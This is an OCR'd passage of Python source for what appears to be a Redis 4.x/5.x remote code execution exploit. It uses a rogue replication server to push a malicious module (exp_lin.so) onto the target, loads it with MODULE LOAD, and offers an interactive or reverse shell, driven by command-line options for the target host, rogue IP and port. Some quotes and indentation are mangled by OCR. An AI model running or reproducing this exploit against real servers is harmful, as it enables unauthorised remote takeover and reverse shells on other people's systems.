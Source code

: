     printback(remote)
    print("[*] Setting filename")
    remote.do("CONFIG SET dbfilename {}".format(expfile))
    printback(remote)
    sleep(2)
    print("[*] Start listening on {}:{}".format(lhost, lport))
    rogue = RogueServer(lhost, lport, remote, expfile)
    print("[*] Tring to run payload")
    rogue.exp()
    sleep(2)
    remote.do("MODULE LOAD ./{}".format(expfile))
    remote.do("SLAVEOF NO ONE")
    print("[*] Closing rogue server...\n")
    rogue.close()
    # Operations here
    choice = input("\033[92m[+]\033[0m What do u want ? [i]nteractive shell or [r]everse shell or [e]xit: ")
    if choice.startswith("i"):
        interact(remote)
    elif choice.startswith("r"):
        reverse(remote)
    elif choice.startswith("e"):
        pass

    cleanup(remote, expfile)

    remote.close()
except Exception as e:
    print("\033[1;31;m[-]\033[0m Error found : {} \n[*] Exit..".format(e)) 
```

def main():

parser = argparse.ArgumentParser(description=‘Redis 4.x/5.x RCE with RedisModules’)

parser.add_argument("-r", “–rhost”, dest=“rhost”, type=str, help=“target host”, required=True)

parser.add_argument("-p", “–rport”, dest=“rport”, type=int,

help=“target redis port, default 6379”, default=6379)

parser.add_argument("-L", “–lhost”, dest=“lhost”, type=str,

help=“rogue server ip”, required=True)

parser.add_argument("-P", “–lport”, dest=“lport”, type=int,

help=“rogue server listen port, default 21000”, default=21000)

parser.add_argument("-f", “–file”, type=str, help=“RedisModules to load, default exp.so”, default=‘exp_lin.so’)

parser.add_argument("-a", “–auth”, dest=“auth”, type=str, help=“redis password”)

parser.add_argument("-v", “–verbose”, action=“store_true”, help=“show more info”, default=False)

options = parser.parse_args()

# runserver(“127.0.0.1”, 6379, “127.0.0.1”, 21000)

```
print("[*] Connecting to  {}:{}...".format(options.rhost, options.rport))
global payload, verbose, filename, auth
